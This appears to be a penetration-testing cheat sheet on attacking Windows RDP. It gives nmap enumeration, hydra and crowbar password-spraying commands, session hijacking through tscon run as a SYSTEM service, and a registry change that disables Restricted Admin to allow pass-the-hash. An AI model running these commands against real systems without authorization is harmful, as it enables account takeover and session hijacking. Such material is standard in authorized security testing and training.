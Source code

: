 # RDP \[3389]

## Enumeration

```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```

## Brute force

{% hint style="danger" %}
**you could lock accounts if the failed attempts are exceeded.**
{% endhint %}

## **Password Spraying**

<pre><code><strong># crowbar
</strong><strong>crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
</strong># hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
</code></pre>

> Password spraying is a form of brute force attack where you use one password and iterate through all user names. The account could still get locked if not careful.

## Session stealing

With **SYSTEM permissions** you can access any **opened RDP session by any user** without need to know the password of the owner.

**Get openned sessions:**

```
query user
```

**Access to the selected session**

```
tscon <ID> /dest:<SESSIONNAME>
```

**Access to the selected session as local administrator priv**

```
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
# create the service which will be ran as SYSTEM priv.
net start sessionhijack
# start the service
```

{% hint style="warning" %}
This no longer works on Server 2019
{% endhint %}

## **Service Interaction**

```shell-session
xfreerdp /v:<target-IP> /u:<user> /p:<pass>
rdesktop <target-IP> -u <user> -p <pass>
```

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption><p>This error could occur during /pth if DisableRestrictedAdmin is not set</p></figcaption></figure>

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

[CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)
